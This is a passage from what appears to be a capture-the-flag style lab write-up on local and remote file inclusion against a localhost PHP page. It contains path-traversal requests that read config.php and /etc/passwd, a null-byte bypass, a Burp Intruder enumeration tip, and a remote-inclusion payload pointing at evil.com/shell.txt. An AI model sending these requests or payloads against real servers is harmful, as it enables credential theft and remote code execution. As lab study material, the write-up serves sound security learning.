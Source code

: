         GET /labs/fi0x01.php?filename=../../../../../var/www/html/config.php HTTP/1.1
        Host: localhost
        
        ## EXPECTED OUTPUT : 
        											
        ```
        
        > Pro Tip: Use **Burp Intruder with a wordlist** (e.g., SecLists file paths like /etc/passwd, /var/www/html/flag.txt) to automate file enumeration. Set the payload position to filename=§§ and look for responses with content (not errors).
        
          
        

### Step 3: Bypass Potential Filters

  

- **Your ../../../../../etc/passwd** worked **without encoding or tricks, suggesting minimal filtering**. But let’s test for common restrictions in case the lab throws curveballs for other files (e.g., appending .txt due to chocolate_cake.txt or blocking certain paths).

  

- **Test for Extension Appending:**
    
    1. **Try Null Byte Injection (for older PHP <5.3.4)**
    
    ```Bash
    ## REQUEST : 
    
    GET /labs/fi0x01.php?filename=../../../../../etc/passwd%00 HTTP/1.1
    Host: localhost
    ```
    
    - **Why**: %00 truncates .txt if appended (e.g., /etc/passwd.txt becomes /etc/passwd).
    - **Note**: Unlikely in modern PHP but possible in lab VMs.

## What is RFI?

- RFI occurs when an attacker **includes a remote file hosted on a different server** — this can lead directly to **remote code execution**.

```Markdown

# EXAMPLE PAYLOAD : 

	- http://example.com/index.php?page=http://evil.com/shell.txt
```